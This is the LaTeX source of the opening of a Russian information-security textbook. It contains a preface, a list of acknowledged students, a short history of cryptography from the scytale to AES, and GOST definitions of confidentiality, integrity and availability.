\documentclass[10pt,a4paper,openany]{book}
%\documentclass[12pt,report,russian]{ncc}
%\usepackage{a4wide}
% Для векторых русских шрифтов в PDF не забудьте установить пакеты cm-super & cm-unicode
\usepackage{cmap}                       % Поддержка поиска русских слов в PDF (pdflatex)
\usepackage[X2, T2A]{fontenc}
%\usepackage[T2, OT1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[english,german,italian,latin,russian]{babel}
\usepackage{indentfirst}                % Красная строка в первом абзаце
%\usepackage{misccorr}
%Может быть установлено 8pt, 9pt, 10pt, 11pt, 12pt, 14pt, 17pt, and 20pt
%\usepackage[12pt]{extsizes}
%\usepackage[mag=1000,a4paper,left=3cm,right=2cm,top=2cm,bottom=2cm,noheadfoot]{geometry}

% Подключение amsmath также даёт поддержку автоматических \dots
% см. http://tex.stackexchange.com/questions/77737/dots-versus-ldots-is-there-a-difference
% см. http://tex.stackexchange.com/questions/117730/what-is-the-difference-between-ldots-and-cdots
\usepackage{amsmath} % разрешить \texttt и аналогичные в формулах
\usepackage{amssymb} % дополнительные математические символы
\usepackage{graphicx} % поддержка изображений

%\usepackage{amsfonts, eucal, bm, color, }

\usepackage{algorithm, algorithmic}     % 'algorithm' environments
\floatname{algorithm}{Алгоритм}

\usepackage{arydshln}                   % dash lines in tables
\usepackage{caption}                    % titles for figures
\usepackage{enumerate}
\usepackage{enumitem}                   % кастомизация itemize/enumerate, напр. отказ от indent
\usepackage{fancybox}                   % страница в рамке
\usepackage{float}			% sub figures
\usepackage[totoc=true]{idxlayout}      % балансировка индексов на последней странице, индекс в ToC
\usepackage{lscape}                     % поддержка поворота страниц на 90 градусов для широких таблиц
\usepackage{makeidx}                    % index
\usepackage{multicol}                   % поддержка колонок
\setlength{\columnsep}{0.1cm}
\usepackage{multirow}                   % multirow cells in tables
\usepackage{subfig}			% sub figures
\usepackage{tikz}                       % векторная графика внутри TeX
\usepackage{tablefootnote}		% footnote в таблицах
\usepackage{wrapfig}			% sub figures
\usepackage{textcomp}                   % \No support

\usepackage[left=1.84cm, right=1.5cm, paperwidth=14cm, top=1.8cm, bottom=2cm, height=19.8cm, paperheight=20cm]{geometry}
\usepackage[parentracker=true,
  backend=biber,
  hyperref=auto,
  language=auto,
  citestyle=gost-numeric,
  defernumbers=true,
  bibstyle=gost-numeric,
  sortlocale=ru_RU
]{biblatex}								% библиография по ГОСТу
\addbibresource{bibliography.bib}

% поддержка гиперссылок; гиперссылки в pdf, должен быть последним загруженным пакетом
\ifx\pdfoutput\undefined
    \usepackage[unicode,dvips]{hyperref}
\else
    \usepackage[pdftex,colorlinks,unicode,bookmarks]{hyperref}
\fi

%\paperwidth=16.8cm \oddsidemargin=0cm \evensidemargin=0cm \hoffset=-0.33cm \textwidth=13.2cm
%\paperheight=24cm \voffset=-0.4cm \topmargin=0cm \headsep=0cm \headheight=0cm \textheight=19.8cm \footskip=0.9cm

% параметры PDF файла
\hypersetup{
    pdftitle={Защита информации},
    pdfauthor={Э. М. Габидулин, А. С. Кшевецкий, А. И. Колыбельников, С. М. Владимиров},
    pdfsubject=учебное пособие,
    pdfkeywords={защита информации, криптография, МФТИ}
}

% добавить точку после номера секции, раздела и~т.\,д.
\makeatletter
\def\@seccntformat#1{\csname the#1\endcsname.\quad}
\def\numberline#1{\hb@xt@\@tempdima{#1\if&#1&\else.\fi\hfil}}
\makeatother

% перенос слов с тире
%\lccode`\-=`\-
%\defaulthyphenchar=127

% изменить подписи к рисункам, таблицам и~т.\,д.
\captionsetup{labelsep=endash}          % Нумерационный заголовок и текст разделяются тире
\captionsetup{textformat=simple}        % Текст подписи будет напечатан как есть
%\captionsetup[table]{position=above}    % вертикальные отступы подписи таблицы для случая, когда подпись вверху
%\captionsetup[figure]{position=below}   % вертикальные отступы подписи рисунка для случая, когда подпись внизу

%% стиль главы и секции вверху страницы
%\pagestyle{fancy}
%%\renewcommand{\chaptermark}[1]{\markboth{#1}{}}
%\renewcommand{\sectionmark}[1]{\markright{#1}{}}
%
%%\fancyhf{}
%%\fancyfoot[СE,CO]{\thepage}
%%\fancyhead[LE]{\textsc{\nouppercase{\leftmark}}}
%\fancyhead[RO]{\textsc{\nouppercase{\rightmark}}}
%
%\fancypagestyle{plain}{ %
%\fancyhf{}                              % remove everything
%\renewcommand{\headrulewidth}{0pt}      % remove lines as well
%\renewcommand{\footrulewidth}{0pt}}

% запретить выходить за границы страницы
\sloppy

\newtheorem{theorem}{Теорема}[section]
\newtheorem{lemma}[theorem]{Лемма}
\newtheorem{definition}[theorem]{Определение}
\newtheorem{property}[theorem]{Утверждение}
\newtheorem{corollary}[theorem]{Следствие}
%\newtheorem{algorithm}[theorem]{Алгоритм}
\newtheorem{remark}[theorem]{Замечание}
\newcommand{\proof}{\noindent\textsc{Доказательство.\ }}

%\newtheorem{example}{\textsc{\textbf{Пример}}}
\newcommand{\example}{\textsc{\textbf{Пример.}} }
\newcommand{\exampleend}

\DeclareMathOperator{\ord}{ord}
\newcommand{\set}[1]{\mathbb{#1}}
\newcommand{\group}[1]{\mathbb{#1}}
\newcommand{\E}{\group{E}}
\newcommand{\F}{\group{F}}
\newcommand{\GF}[1]{\group{GF}(#1)}
\newcommand{\Gr}{\group{G}}
\newcommand{\R}{\group{R}}
\newcommand{\Z}{\group{Z}}
\newcommand{\MAC}{\textrm{MAC}}
\newcommand{\HMAC}{\textrm{HMAC}}
\newcommand{\PK}{\textrm{PK}}
\newcommand{\SK}{\textrm{SK}}

\newcommand{\langde}[1]{нем. \foreignlanguage{german}{\textit{#1}}}
\newcommand{\langen}[1]{англ. \foreignlanguage{english}{\textit{#1}}}
\newcommand{\langit}[1]{итал. \foreignlanguage{italian}{\textit{#1}}}
\newcommand{\langlat}[1]{лат. \foreignlanguage{latin}{\textit{#1}}}

% Русская типографика
\renewcommand\leq{\leqslant}
\renewcommand\geq{\geqslant}
\renewcommand\emptyset{\varnothing}
\renewcommand\kappa{\varkappa}
\renewcommand\epsilon{\varepsilon}
\renewcommand\phi{\varphi}
\newcommand*{\No}{\textnumero}

% Для раздела с задачами
\newcommand{\taskinit}{\newcounter{task-section}\setcounter{task-section}{0}\newcounter{task-number}}
\newcommand{\tasksection}{\addtocounter{task-section}{1}\setcounter{task-number}{0}}
\newcommand{\tasknumber}{\textbf{\No\addtocounter{task-number}{1}\arabic{task-section}.\arabic{task-number}.}~~}

%Наконец, существует способ дублировать знаки операций, который мы приведём безо всяких пояснений. Включив
%\newcommand*{\hm}[1]{#1\nobreak\discretionary{}{\hbox{\mathsurround=0pt #1}}{}}
%в преамбулу, можно написать $a\hm+b\hm+c\hm+d$, при этом в формуле a\hm+b\hm+c\hm+d при переносе знак + будет продублирован.

% Дублирование символов бинарных операций ("+", "-", "="), набранных в строчных формулах, при переносе на другую строку:
%%begin{latexonly}
%\renewcommand\ne{\mathchar"3236\mathchar"303D\nobreak
%      \discretionary{}{\usefont
%      {OMS}{cmsy}{m}{n}\char"36\usefont
%      {OT1}{cmr}{m}{n}\char"3D}{}}
%\begingroup
%\catcode`\+\active\gdef+{\mathchar8235\nobreak\discretionary{}%
% {\usefont{OT1}{cmr}{m}{n}\char43}{}}
%\catcode`\-\active\gdef-{\mathchar8704\nobreak\discretionary{}%
% {\usefont{OMS}{cmsy}{m}{n}\char0}{}}
%\catcode`\=\active\gdef={\mathchar12349\nobreak\discretionary{}%
% {\usefont{OT1}{cmr}{m}{n}\char61}{}}
%\endgroup
%\def\cdot{\mathchar8705\nobreak\discretionary{}%
% {\usefont{OMS}{cmsy}{m}{n}\char1}{}}
%\def\times{\mathchar8706\nobreak\discretionary{}%
% {\usefont{OMS}{cmsy}{m}{n}\char2}{}}
%\mathcode`\==32768
%\mathcode`\+=32768
%\mathcode`\-=32768
%%end{latexonly}

\makeindex

\begin{document}
\selectlanguage{russian}

%\layout

% рамка границ страницы http://www.ctan.org/tex-archive/macros/latex/contrib/fancybox/fancybox-doc.pdf
% сделать поиск по fancypage, thisfancypage
%\thisfancypage{}{\fbox}
%\thisfancypage{\fbox}{}
%\fancypage{}{\fbox}         % закомментировать
%\fancypage{\fbox}{\fbox}    % закомментировать
%\fancypage{\setlength{\fboxsep}{32pt}\fbox}{}

\title{Защита информации \\ Учебное пособие}
\author{Габидулин Эрнст Мухамедович \\ Кшевецкий Александр Сергеевич \\ Колыбельников Александр Иванович \\ Владимиров Сергей Михайлович}
\date{
 %   \textbf{\textsc{Черновой вариант. Может содержать ошибки.}} \\
%    \today
}
\maketitle
\setcounter{page}{3}

\newpage
%\thispagestyle{empty}
\setcounter{tocdepth}{2}
\tableofcontents
%\thispagestyle{empty}
\newpage

%\lhead[\leftmark]{}
%\rhead[]{\rightmark}

\chapter*{Предисловие}
\addcontentsline{toc}{chapter}{Предисловие}
\markboth{ПРЕДИСЛОВИЕ}{ПРЕДИСЛОВИЕ}
\selectlanguage{russian}

В настоящем пособии рассмотрены только основные математические методы защиты информации, и среди них основной акцент сделан на криптографическую защиту, которая включает симметричные и несимметричные методы шифрования, формирование секретных ключей, протоколы ограничения доступа и аутентификации сообщений и пользователей. Кроме того, в пособии рассматриваются типовые уязвимости операционных и информационно-вычислительных систем.

\section*{Благодарности}
\addcontentsline{toc}{section}{Благодарности}
Авторы пособия благодарят студентов, аспирантов и сотрудников института, которые помогли с подготовкой, редактированием и поиском ошибок в тексте.

\begin{multicols}{2}
\begin{small}
\begin{itemize}\itemsep 1pt \parskip 0pt \parsep 0pt
	\item[] Татьяна Бакланова\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Дмитрий Банков\begin{tiny} (201-011 гр.)\end{tiny}
	\item[] Даниил Бершацкий\begin{tiny} (201-012 гр.)\end{tiny}
	\item[] Дмитрий Бородий\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Илья Васильев\begin{tiny} (201-217 гр.)\end{tiny}
	\item[] Эмиль Вахитов\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Дмитрий Вербицкий\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Тагир Гадельшин\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Марат Гаджибутаев\begin{tiny} (201-018 гр.)\end{tiny}
	\item[] Ильназ Гараев\begin{tiny} (201-113 гр.)\end{tiny}
	\item[] Евгений Глушков\begin{tiny} (201-012 гр.)\end{tiny}
	\item[] Андрей Горбунов\begin{tiny} (201-116 гр.)\end{tiny}
	\item[] Алексей Гусаров\begin{tiny} (201-216 гр.)\end{tiny}
	\item[] Наталья Гусева\begin{tiny} (201-216 гр.)\end{tiny}
	\item[] Сергей Жестков\begin{tiny} (201-013 гр.)\end{tiny}
	\item[] Виталий Занкин\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Дмитрий Зборовский\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Марат Ибрагимов\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Александр Иванов\begin{tiny} (201-011 гр.)\end{tiny}
	\item[] Александр Иванов\begin{tiny} (201-019 гр.)\end{tiny}
	\item[] Атнер Иванов\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Владимир Ивашкин\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Ирина Камалова\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Иван Киселёв\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Константин Ковальков\begin{tiny} (201-015 гр.)\end{tiny}
	\item[] Андрей Кочетыгов\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Александр Кравцов\begin{tiny} (201-116 гр.)\end{tiny}
	\item[] Виталий Крепак\begin{tiny} (201-013 гр.)\end{tiny}
	\item[] Александр Кротов\begin{tiny} (201-011 гр.)\end{tiny}
	\item[] Станислав Круглик\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Егор Кузнецов\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Зулкаид Курбанов\begin{tiny} (201-113 гр.)\end{tiny}
	\item[] Всеволод Ливинский\begin{tiny} (201-216 гр.)\end{tiny}
	\item[] Егор Макарычев\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Ольга Малюгина\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Алексей Мамаков\begin{tiny} (201-113 гр.)\end{tiny}
	\item[] Роман Маракулин\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Артём Меринов\begin{tiny} (201-214 гр.)\end{tiny}
	\item[] Даниил Меркулов\begin{tiny} (201-111 гр.)\end{tiny}
	\item[] Олег Милосердов\begin{tiny} (201-016 гр.)\end{tiny}
	\item[] Дао Куанг Минь\begin{tiny} (201-116 гр.)\end{tiny}
	\item[] Антон Митрохин\begin{tiny} (201-216 гр.)\end{tiny}
	\item[] Надежда Мозолина\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Хыу Чунг Нгуен\begin{tiny} (201-015 гр.)\end{tiny}
	\item[] Артём Никитин\begin{tiny} (201-012 гр.)\end{tiny}
	\item[] Евгения Никольская\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Андрей Пунь\begin{tiny} (201-013 гр.)\end{tiny}
	\item[] Вадим Сафронов\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Иван Саюшев\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Илья Соломатин\begin{tiny} (201-211 гр.)\end{tiny}
	\item[] Игорь Сорокин\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Игорь Степанов\begin{tiny} (201-213 гр.)\end{tiny}
	\item[] Виктор Сухарев\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Буй Зуи Тан\begin{tiny} (201-112 гр.)\end{tiny}
	\item[] Татьяна Тюпина\begin{tiny} (201-116 гр.)\end{tiny}
	\item[] Сергей Угрюмов\begin{tiny} (201-119 гр.)\end{tiny}
	\item[] Марсель Файзуллин\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Нияз Фазлыев\begin{tiny} (201-114 гр.)\end{tiny}
	\item[] Наталья Федотова\begin{tiny} (201-212 гр.)\end{tiny}
	\item[] Данил Филиппов\begin{tiny} (201-115 гр.)\end{tiny}
	\item[] Александра Цветкова\begin{tiny} (201-216 гр.)\end{tiny}
	\item[] Евгений Юлюгин\begin{tiny} (201-916 гр.)\end{tiny}
	\item[] Руслан Юсупов\begin{tiny} (201-211 гр.)\end{tiny}
\end{itemize}
\end{small}
\end{multicols}


\section{Краткая история криптографии}

Вслед за возникновением письменности появилась задача обеспечения секретности и подлинности передаваемых сообщений путём так называемой тайнописи. Поскольку государства возникали почти одновременно с письменностью, дипломатия и военное управление требовали секретности.

Данные о первых способах тайнописи весьма обрывочны. В древнеиндийских трактатах можно встретить упоминания о способах преобразования текста, некоторые из которых можно отнести к криптографии. Предполагается, что тайнопись была известна в Древнем Египте и Вавилоне. До нашего времени дошли литературные свидетельства того, что секретное письмо использовалось в Древней Греции. В Древней Спарте использовалась скитала\index{скитала} (<<шифр Древней Спарты>>\index{шифр!Древней Спарты}, рис.~\ref{fig:Skytale}), которая также является одним из древнейших известных криптографических устройств. Скитала представляла собой длинный цилиндр, на который наматывалась полоска пергамента. Текст писали поперёк ленты (вдоль цилиндра). Для расшифровки был необходим цилиндр аналогичного диаметра. Считается, что ещё Аристотель предложил метод криптоанализа скиталы. Не зная точного диаметра оригинального цилиндра, он предложил наматывать пергамент на конус до тех пор, пока текст не начнёт читаться. Аристотеля можно называть одним из первых известных криптоаналитиков.

\begin{figure}[t]
	\centering
	\subfloat[Скитала. Рисунок современного автора. Рисунок участника Wikimedia Commons Luringen, доступно по \href{https://creativecommons.org/licenses/by-sa/3.0/deed.ru}{лицензии CC-BY-SA 3.0}]{\label{fig:Skytale}\includegraphics[width=0.60\textwidth]{pic/Skytale}}
	~~~~
	\subfloat[Аристотель (384 -- 322~гг.~до~н.~э.). Римская копия оригинала Лисиппа]{\includegraphics[width=0.35\textwidth]{pic/Aristotle_Altemps_Inv8575}}
	\caption{Скитала\index{скитала}, <<шифр Древней Спарты>>\index{шифр!Древней Спарты}}
\end{figure}

В Ветхом Завете, в том числе в книге пророка Иеремии (VI~век до~н.~э.), использовалась техника скрытия отдельных кусков текста, получившая название <<атбаш>>\index{шифр!атбаш}.

\begin{itemize}
	\item \texttt{Иер. 25:26}: и всех царей севера, близких друг к другу и дальних, и все царства земные, которые на лице земли, а царь Сесаха выпьет после них
	\item \texttt{Иер. 51:41}: Как взят Сесах, и завоёвана слава всей земли! Как сделался Вавилон ужасом между народами!
\end{itemize}

В этих отрывках слово <<Сесах>> относится к государству, про которое не упоминается в других источниках. Но если взять написание слова <<Сесах>> на иврите, заменить первую букву алфавита на последнюю, вторую на предпоследнюю, и так далее, то вместо <<Сесах>> получится <<Бавель>> -- одно из названий города Вавилон. То есть с помощью техники <<атбаш>> авторы манускрипта скрывали отдельные названия, оставляя б\'{о}льшую часть текста без шифрования. Возможно это делалось в том числе и для того, чтобы не иметь проблем с распространением текстов на территории, подконтрольной Вавилону. Шифр <<атбаш>>\index{шифр!атбаш} можно рассматривать как пример моноалфавитного афинного шифра (см. раздел~\ref{section-affine-cipher}).

Сразу несколько техник защищённой передачи сообщений связывают с именем Энея Тактика, полководца IV~века до~н.~э.
\begin{itemize}
	\item \textbf{Диск Энея} представлял собой диск небольшого диаметра с отверстиями, которые соответствовали буквам алфавита. Отправитель протягивал нитку через отверстия, тем самым кодируя сообщение. Диск с ниткой отправлялся получателю. Особенностью диска Энея было то, что в случае захвата гонца, последний мог быстро выдернуть нитки из диска, фактически уничтожив передаваемое сообщение.
	\item \textbf{Линейка Энея} представляла собой линейку с отверстиями, соответствующими буквам греческого алфавита. Нитку также продевали через отверстия, тем самым шифруя сообщение. Однако после продевания на нитке завязывали узлы. После окончания нитку снимали с линейки и отправляли получателю. Чтобы восстановить сообщение, получатель должен был иметь линейку с таким же порядком отверстий, как та, на которой текст шифровался. Подобный метод можно назвать моноалфавитным шифром (см. раздел~\ref{section-substitution-cipher}), исходное сообщение -- открытым текстом, нитку с узлами -- шифротекстом, а саму линейку -- ключом шифрования.
	\item Ещё одна техника, \textbf{книжный шифр Энея}, состояла в прокалывании небольших отверстий в книге или манускрипте рядом с буквами, соответствующими буквам исходного сообщения. Этот метод относится уже не к криптографии, а к стеганографии -- науке о скрытии факта передачи сообщения.
\end{itemize}

Ко II~веку до~н.~э. относят изобретение в Древней Греции квадрата Полибия (рис.~\ref{fig:polubios-square}). Метод позволял передавать информацию на большие расстояния с помощью факелов. Каждой букве алфавита ставилось в соответствие два числа от 1 до 5 (номера строки и столбца в квадрате Полибия). Эти числа обозначали количество факелов, которые необходимо поднять на сигнальной башне. Квадрат Полибия относится к методам кодирования информации: переводу информации из одного представления (греческого алфавита) в другое (число факелов) для удобства хранения, обработки или передачи.

\begin{figure}[t]
	\centering
\begin{tabular}{ || c || c | c | c | c | c ||}
\hline
\hline
  & 1 & 2 & 3 & 4 & 5 \\
\hline
\hline
1 & A & B & $\Gamma$ & $\Delta$ & E \\
\hline
2 & Z & H & $\Theta$ & I & K \\
\hline
3 & $\Lambda$ & M & N & $\Xi$ & O  \\
\hline
4 & $\Pi$ & P & $\Sigma$ & T & $\Upsilon$ \\
\hline
5 & $\Phi$ & X & $\Psi$ & $\Omega$ & \\
\hline
\hline
\end{tabular}
  \caption{Квадрат Полибия для греческого алфавита}
  \label{fig:polubios-square}
\end{figure}

Известен метод шифрования, который использовался Гаем Юлием Цезарем (100--44~гг.~до~н.~э.). Он получил название <<шифр Цезаря>>\index{шифр!Цезаря} и состоял в замене каждой буквы текста на другую букву, следующую в алфавите через две позиции (см. раздел~\ref{section-caesar-cipher}). Данный метод относится к классу моноалфавитных шифров.

В VIII веке~н.~э. была опубликована <<Книга тайного языка>> Аль-Халиля аль-Фарахиди, в которой арабский филолог описал технику криптоанализа, сейчас известную как атака по открытому тексту. Он предположил, что первыми словами письма, которое было отправлено византийскому императору, будет фраза <<Во имя Аллаха>>, что оказалось верным и позволило расшифровать оставшуюся часть письма. Абу аль-Кинди (801--873~гг.~н.~э.) в своём <<Трактате о дешифровке криптографических сообщений>> показал, что моноалфавитные шифры, в которых каждому символу кодируемого текста ставится в однозначное соответствие какой-то другой символ алфавита, легко поддаются частотному криптоанализу. В тексте трактата аль-Кинди привёл таблицу частот букв, которую можно использовать для дешифровки шифротекстов на арабском языке, использующих моноалфавитный шифр.

\begin{figure}[t]
	\centering
	\subfloat[Статуя Леона Баттиста Альберти (\langit{Leone Battista Alberti}, 1404--1472) во дворе Уффици. Фото участника it.wiki Frieda, доступно по \href{https://creativecommons.org/licenses/by-sa/3.0/deed.ru}{лицензии CC-BY-SA 3.0}]{\includegraphics[width=0.50\textwidth]{pic/Leon_Battista_Alberti_1}}
	~~~~
	\subfloat[Фрагмент оформления гробницы Иоганна Тритемия (\langlat{Iohannes Trithemius}, 1462--1516)]{\includegraphics[width=0.45\textwidth]{pic/Trithemiusmoredetail}}
	\caption{Отцы западной криптографии}
\end{figure}

Итальянский архитектор Леон Баттиста Альберти, проанализировав использовавшиеся в Европе шифры, предложил для каждого текста использовать не один, а несколько моноалфавитных шифров. Однако Альберти не смог предложить законченной идеи полиалфавитного шифра, хотя его и называют отцом западной криптографии. В истории развития полиалфавитных шифров до XX века также наиболее известны немецкий аббат XVI века Иоганн Тритемий и английский учёный начала XIX века Чарльз Уитстон (\langen{Charles Wheatstone}, 1802--1875). Уитстон изобрёл простой и стойкий способ полиалфавитной замены, называемый шифром Плейфера\index{шифр!Плейфера} в честь лорда Плейфера, способствовавшего внедрению шифра. Шифр Плейфера использовался вплоть до Первой мировой войны.

\begin{figure}[t]
	\centering
	\subfloat[<<Энигма>>]{\label{fig:enigma}\includegraphics[width=0.35\textwidth]{pic/EnigmaMachine}}
	~~
	\subfloat[<<Лоренц>> (без кожуха)]{\label{fig:lorenz}\includegraphics[width=0.60\textwidth]{pic/Lorenz-SZ42-2}}
	\caption{Криптографические машины Второй мировой войны}
\end{figure}

Роторные машины XX века позволяли создавать и реализовывать устойчивые к <<наивному>> взлому полиалфавитные шифры. Примером такой машины является немецкая машина <<Энигма>>\index{Энигма}, разработанная в конце Первой мировой войны (рис.~\ref{fig:enigma}). Период активного применения <<Энигмы>> пришелся на Вторую мировую войну. Хотя роторные машины использовались в промышленных масштабах, криптография, на которой они были основаны, представляла собой всё ещё искусство, а не науку. Отсутствовал научный базис надёжности криптографических инструментов. Возможно, это было одной из причин успеха криптоанализа <<Энигмы>>, который сначала был достигнут в Польше в <<Бюро шифров>>, а потом и в <<Блетчли-парке>> в Великобритании. Польша впервые организовала курсы криптографии не для филологов и специалистов по немецкому языку, а для математиков, хотя и знающих язык весьма вероятного противника. Трое из выпускников курса — Мариан Реевский, Генрих Зыгальский и Ежи Рожицкий — поступили на службу в «Бюро шифров» и получили первые результаты успешного криптоанализа. Используя математику, электромеханические приспособления и данные французского агента Asche (Ганс-Тило Шмидт), они могли дешифровывать значительную часть сообщений вплоть до лета 1939 года, когда вторжение Германии в Польшу стало очевидным. Дальнейшая работа по криптоанализу <<Энигмы>> в центре британской разведки <<Station~X>>\index{Station X} (<<Блетчли-парк>>\index{Блетчли-парк}) связана с именами таких известных математиков, как Гордон Уэлчман и Алан Тьюринг. Кроме <<Энигмы>> в центре проводили работу над дешифровкой и других шифров, в том числе немецкой шифровальной машины <<Лоренц>> (рис.~\ref{fig:lorenz}). Для целей её криптоанализа был создан компьютер Colossus, имевший 1500 электронных ламп, а его вторая модификация -- Colossus Mark II -- считается первым в мире программируемым компьютером в истории ЭВМ.

Середина XX века считается основной вехой в истории науки о защищённой передаче информации и криптографии. Эта веха связана с публикацией двух работ Клода Шеннона: <<Математическая теория связи>> (<<A Mathematical Theory of Communication>>, 1948, \cite{Shannon:1948:MTCa, Shannon:1948:MTCb}) и <<Теория связи в секретных системах>> (<<Communication Theory of Secrecy Systems>>, 1949, \cite{Shannon:1949:CTS}). В данных работах Шеннон впервые определил фундаментальные понятия в теории информации, а также показал возможность применения этих понятий для защиты информации, тем самым заложив математическую основу современной криптографии.

Кроме того, появление электронно-вычислительных машин кардинально изменило ситуацию в криптографии. С одной стороны, вычислительные способности ЭВМ подняли на совершенно новый уровень возможности реализации шифров, недоступных ранее из-за их высокой сложности. С другой стороны, аналогичные возможности стали доступны и криптоаналитикам. Появилась необходимость не только в создании шифров, но и в хоть в каком-нибудь обосновании того, что новые вычислительные возможности не смогут быть использованы для взлома новых шифров.

В 1976 году появился шифр DES (Data Encryption Standard)\index{шифр!DES}, который был принят как стандарт США. DES широко использовался для шифрования пакетов данных при передаче в компьютерных сетях и системах хранения данных. С 90-х годов параллельно с традиционными шифрами, основой которых была булева алгебра, активно развиваются шифры, основанные на операциях в конечном поле. Широкое распространение персональных компьютеров и быстрый рост объёма передаваемых данных в компьютерных сетях привели к замене в 2002 году стандарта DES на более стойкий и быстрый в программной реализации стандарт -- шифр AES (Advanced Encryption Standard)\index{шифр!AES}. Окончательно DES был выведен из эксплуатации как стандарт в 2005 году.

В беспроводных голосовых сетях передачи данных используются шифры с малой задержкой шифрования и расшифрования на основе посимвольных преобразований -- так называемые \emph{потоковые шифры}\index{шифр!потоковый}.

%Основным их преимуществом является сочетание помехоустойчивого кодирования с криптостойкостью шифра.

Параллельно с разработкой быстрых шифров в 1977 г. появился новый класс криптосистем, так называемые \emph{криптосистемы с открытым ключом}\index{криптосистема!с открытым ключом}. Хотя эти новые криптосистемы намного медленнее (технически сложнее) симметричных, они открыли принципиально новые возможности: \emph{электронная подпись}, \emph{аутентификация} и \emph{сертификация} составили основу современной защищённой связи в Интернете.

В настоящее время типичное использование криптографии в информационных системах состоит в следующем:
\begin{itemize}
\item цифровой аутентификации пользователей с помощью криптосистем с открытым ключом;
\item создании кратковременных сеансовых ключей;
\item применении быстрых шифров в процессах обмена данными.
\end{itemize}


\chapter{Основные понятия и определения}
\selectlanguage{russian}

Изучение курса <<Защита информации>> необходимо начать с определения понятия \emph{<<информация>>}. В теоретической информатике \emph{информация} -- это любые сведения, или цифровые данные, или сообщения, или документы, или файлы, которые могут быть переданы \emph{получателю информации} от \emph{источника информации}. Можно считать, что информация передаётся по какому-либо каналу связи с помощью некоторого носителя, которым может быть, например, распечатка текста, диск или другое устройство хранения информации, система передачи сигналов по оптическим, проводным линиям или радиолиниям связи и~т.\,д.

\emph{Защита информации} -- это\footnote{Строго говоря, определение защиты информации даётся в официальном стандарте ГОСТ Р 50922-2006, <<Защита информации. Основные термины и определения>>~\cite{GOST-50922-2006}, согласно которому \emph{защита информации} -- это деятельность, направленная на предотвращение утечки защищаемой информации, несанкционированных и непреднамеренных воздействий на защищаемую информацию. Однако мы пользуемся определением, основанным на понятии <<безопасность информации>> из того же стандарта: \emph{безопасность информации} -- это состояние защищенности информации, при котором обеспечиваются ее \emph{конфиденциальность}, \emph{доступность} и \emph{целостность}.} обеспечение \emph{целостности}, \emph{конфиденциальности} и \emph{доступности} информации, передаваемой или хранимой в какой-либо форме. Информацию необходимо защищать от нарушения её целостности и конфиденциальности в результате вмешательства \emph{нелегального пользователя}. В российском стандарте ГОСТ Р 50.1.056-2005 приведены следующие определения~\cite{GOST-2005}:
\begin{itemize}
	\item \emph{целостность информации}\index{целостность} -- состояние информации, при котором отсутствует любое ее изменение либо изменение осуществляется только преднамеренно субъектами, имеющими на него право;
	\item \emph{конфиденциальность}\index{конфиденциальность} -- состояние информации, при котором доступ к ней осуществляют только субъекты, имеющие на него право;
	\item \emph{доступность}\index{доступность} -- состояние информации, при котором субъекты, имеющие права доступа, могут реализовать их беспрепятственно.
\end{itemize}

Другой стандарт ГОСТ Р ИСО/МЭК 13335-1-2006~\cite{GOST-13335-1-2006} определяет \emph{информационную безопасность} как все аспекты, связанные с определением, достижением и поддержанием \emph{конфиденциальности}, \emph{целостности}, \emph{доступности}, \emph{неотказуемости}, \emph{подотчетности}, \emph{аутентичности} и \emph{достоверности} информации или средств ее обработки. То есть в дополнение к предыдущему определению на защиту информации в области информационных технологий возлагаются дополнительные задачи:
\begin{itemize}
	\item обеспечение \emph{неотказуемости} -- способности удостоверять имевшее место действие или событие так, чтобы эти события или действия не могли быть позже отвергнуты;
	\item обеспечение \emph{подотчетности} -- способности однозначно прослеживать действия любого логического объекта;
	\item обеспечение \emph{аутентичности} -- способности гарантировать, что субъект или ресурс идентичны заявленным;\footnote{Аутентичность применяется к таким субъектам, как пользователи, к процессам, системам и информации.}
	\item обеспечение \emph{достоверности} -- способности обеспечивать соответствие предусмотренному поведению и результатам;
\end{itemize}

Стандарт ГОСТ Р 50922-2006~\cite{GOST-50922-2006}, хотя и не вводит прямой классификации методов защиты информации, даёт следующие их определения.
\begin{itemize}
	\item \emph{Правовая защита информации}. Защита информации правовыми методами, включающая в себя разработку законодательных и нормативных правовых документов (актов), регулирующих отношения субъектов по защите информации, применение этих документов (актов), а также надзор и контроль за их исполнением.
	\item \emph{Техническая защита информации; ТЗИ}. Защита информации, заключающаяся в обеспечении некриптографическими методами безопасности информации (данных), подлежащей (подлежащих) защите в соответствии с действующим законодательством, с применением технических, программных и программно-технических средств.
	\item \emph{Криптографическая защита информации}. Защита информации с помощью ее криптографического преобразования.
	\item \emph{Физическая защита информации}. Защита информации путем применения организационных мероприятий и совокупности средств, создающих препятствия для проникновения или доступа неуполномоченных физических лиц к объекту защиты.
\end{itemize}

В рамках данного пособия в основном остановимся на криптографических методах защиты информации. Они помогают обеспечить \emph{конфиденциальность} и \emph{аутентичность}. В сочетании с правовыми методами зашиты информации они помогают обеспечить \emph{неотказуемость} действий, а в сочетании с техническими -- \emph{целостность информации} и \emph{достоверность}.

